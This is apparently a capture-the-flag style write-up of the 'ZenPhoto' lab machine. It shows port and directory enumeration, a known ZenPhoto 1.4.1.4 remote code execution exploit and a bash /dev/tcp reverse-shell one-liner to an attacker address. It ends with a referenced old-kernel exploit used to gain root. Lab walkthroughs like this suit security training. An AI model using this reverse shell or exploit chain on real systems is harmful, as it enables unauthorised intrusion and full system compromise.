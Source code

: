 # ZenPhoto

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.41 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:19 +08
Nmap scan report for 192.168.175.41
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```

Of all things, Telnet is open.&#x20;

### Web Enum --> ZenPhoto RCE

Port 80 just shows this:

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

A `gobuster` scan reveals the following directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.41/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.41/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 20:22:15 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 75]
/test                 (Status: 301) [Size: 315] [--> http://192.168.175.41/test/]
```

Visiting `/test` reveals a ZenPhoto instance:

<figure><img src="../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

Viewing the page source reveals the version of ZenPhoto that is running:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits available for this instance:

```
$ searchsploit zenphoto 1.4.1.4
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Ex | php/webapps/18083.php
----------------------------------------------------------- ---------------------------------
```

This exploits works in getting me a webshell:

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell using this one-liner:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.164/4444 0>&1'
```

<figure><img src="../../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Kernel Exploit --> Root

This machine was running on a really old Linux kernel version:

```
www-data@offsecsrv:/home$ uname -a
Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux
```

There are quite a few exploits that might work for this version of Linux running. I used this one:

{% embed url="https://www.exploit-db.com/exploits/15704" %}

Compile it on the machine itself using `gcc exploit.c -o exploit`. Then, run it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

Rooted!
